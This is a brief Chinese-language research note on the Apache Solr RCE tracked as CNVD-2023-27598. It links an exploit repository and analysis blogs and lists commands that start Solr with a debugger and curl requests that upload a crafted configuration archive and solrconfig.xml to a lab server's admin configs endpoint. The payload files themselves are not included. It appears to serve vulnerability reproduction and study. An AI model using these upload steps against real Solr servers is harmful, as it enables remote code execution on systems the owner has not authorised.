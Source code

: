 # CNVD-2023-27598_ApacheSolr_RCE

- exp
  - `https://github.com/pupil857/Solr-Exploit`
- 分析
    - [原始-360](https://blog.noah.360.net/apache-solr-rce/)
    - `https://blog.huamang.xyz/post/solr_cloud_rce/`
    - `https://okaytc.github.io/posts/5a99c826.html`

---

## 利用

```bash
# -c开启solrcloud模式，-f后台显示执行情况，-a调试参数(端口设置同idea一样) (win上始终没能跑成功)(linux上用 solr 文件跑 9.1 成功了)
solr.cmd start -c -f -a "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:35005"
./solr start -e cloud -a "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"
```

```bash
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf.zip "http://192.168.1.215:8983/solr/admin/configs?action=UPLOAD&name=lib9"

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @solrconfig.xml "http://192.168.1.215:8983/solr/admin/configs?action=UPLOAD&name=lib9&filePath=solrconfig.xml&overwrite=true"

```

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf.zip "http://192.168.1.215:8080/solr/admin/configs?action=UPLOAD&name=lib9"

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @solrconfig.xml "http://192.168.1.215:8080/solr/admin/configs?action=UPLOAD&name=lib9&filePath=solrconfig.xml&overwrite=true"
```
